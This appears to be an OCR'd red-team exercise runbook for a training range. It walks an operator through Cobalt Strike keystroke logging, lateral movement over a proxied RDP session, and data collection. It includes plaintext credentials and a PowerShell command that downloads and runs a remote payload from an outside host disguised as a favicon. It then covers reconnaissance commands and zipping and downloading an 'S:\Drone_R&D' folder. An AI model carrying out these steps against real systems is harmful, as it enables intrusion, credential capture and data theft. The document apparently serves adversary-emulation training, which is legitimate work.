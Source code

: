 Cobalt Strike: 
� Left-click new muggle-4 beacon 
� Right-click > Explore > Process List 
� Select mstsc.exe process > Log Keystrokes 
� View > Keystrokes 
 
PCTE: 
� Connect to mystery-31.mystery.com as: 
o RCS03 � v1: ruthie.rollins : P@ssw0rdP@ssw0rd o RCS06 � v2: rachael.mullins: s3+a#s#3K#j# 
 
� Close console WITHOUT logging out 
 
Cobalt Strike: 
� Verify keystrokes were captured 
 
Lateral 
Movement 
- Mystery 
 
> Left-click muggle-4 beacon 
> Right-click Interact 
 
socks 9050 
 
Bash: 
IMPORTANT: Replace the username and password with the appropriate credentials: 
RCS03 - v1: ruthie.rollins : P@ssw0rdP@ssw0rd RCS06 - v2: rachael.mullins : S3+a#s#3K#j# 
proxychains xfreerdp /cert:ignore /v:MYSTERY-31 /u:<username> /p:<password> /timeoue:60000 
 
On Remote Host: 
� Task Manager Run: powershell -win h -c "iex (iwr -useb http://macfeelabs.com/favicon.ico)" 
� Wait for beacon check-in 
� Disconnect from RDP 
� Left-click muggle-4 beacon 
� Right-click>Interact 
 
socks stop exit 
 
Collection / 
Exfiltration 
 
> Left-click mystery-31 beacon 
> Right-click>Interact 
 
Console: 
 
sleep 60 20 shell whoami /all shell ipconfig /all shell netstat -ant shell netstat -r 
shell net use 
 
� Right-Click > Explore > File Browser 
� List Drives 
� Click around to explore the S: drive for a while, simulating searching for files of interest 
� It will update the files each callback 
 
run "C:\Program Files\7-Zip\7z.exe" -r a C:\Users\Public\backup.zip "S:\Drone_R&D" download C:\Users\Public\backup.zip sleep 600 20 
 
 
NOTICE 
    As stated before, with the exception of jake.potts, usernames are listed for ease of  	reference but these usernames may vary depending on the range and future updates. 
 